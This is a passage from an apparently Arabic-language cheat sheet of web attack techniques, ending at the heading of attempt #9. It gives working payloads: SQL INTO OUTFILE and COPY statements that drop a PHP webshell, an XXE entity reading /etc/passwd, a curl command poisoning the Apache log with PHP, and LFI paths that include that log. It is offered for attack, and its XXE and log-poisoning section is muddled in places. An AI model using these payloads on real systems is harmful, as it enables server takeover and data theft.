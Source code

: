 ### 💥 الاستغلال:
MySQL:
```sql
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php';
```

PostgreSQL:
```sql
COPY (SELECT E'<?php system($_GET["cmd"]); ?>') TO '/var/www/html/shell.php';
```

### 📌 النتيجة:
- رفع Webshell.
- تنفيذ أوامر عبر URL: `http://target.com/shell.php?cmd=id`

---

# 🧪 المحاولة #8: XXL to PHP via Log Poisoning + Session Storage

### ⚙️ الفكرة:
استغلال ثغرة XXE ثم تضمين ملف log لشل الخادم.

### 💥 الاستغلال:
XXE لتحديث User-Agent:
```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>&xxe;</root>
```

ثم تحديث User-Agent:
```bash
curl -A "<?php system($_GET['cmd']); ?>" http://target.com/
```

ثم LFI:
```http
?page=../../var/log/apache/access.log
```

أو:
```http
?page=php://filter/convert.base64-encode/resource=../../var/log/apache/access.log
```

### 📌 النتيجة:
- تنفيذ PHP Code.
- الوصول إلى Shell.

---

# 🧪 المحاولة #9: LDAP + LDIF Injection
